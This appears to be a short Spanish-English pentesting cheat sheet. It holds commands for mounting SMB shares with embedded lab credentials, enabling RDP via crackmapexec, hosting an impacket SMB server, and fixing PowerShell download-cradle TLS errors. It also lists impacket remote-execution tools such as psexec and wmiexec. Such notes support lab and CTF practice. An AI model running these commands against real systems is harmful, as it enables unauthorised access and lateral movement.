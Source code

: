# Utils

<pre class="language-bash"><code class="lang-bash"><strong># Mount a shared smb folder in linux
</strong>mount -t cifs //10.10.10.182/Data /mnt/data -o username=r.thompson,password=rY4n5eva,domain=cascade.local,rw

<strong># Enable RDP with admin creds
</strong><strong>crackmapexec smb (ip-machine) -u (admin-user) -p (admin-pass) -M rdp -o action=enable
</strong><strong>
</strong><strong># Crear servidor smb con kali
</strong>impacket-smbserver &#x3C;Name of the folder> &#x3C;path> -smb2support
impacket-smbserver smbFolder $(pwd) -smb2support
<strong>
</strong><strong># Error al descargar con (New-Object System.Net.WebClient).downloadString('someurl')
</strong>#Excepción al llamar a "DownloadString" con los argumentos "1": "Anulada la solicitud: No se puede crear un canal
#seguro SSL/TLS."
[Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls" # Poner eso en la powershell

</code></pre>

## Impacket

{% embed url="https://thehackerway.com/2021/05/17/network-hacking-con-impacket-parte-2/" %}

```bash
# Remote access With admin credentials
psexec.py <domain-name>/<User>:<Password>@<ip> cmd
smbexec.py <domain-name>/<User>:<Password>@<ip>
wmiexec.py <domain-name>/<User>:<Password>@<ip>

dcomexec.py -object MMC20 <domain-name>/<User>:<Password>@<ip>
# MMC20, 
```
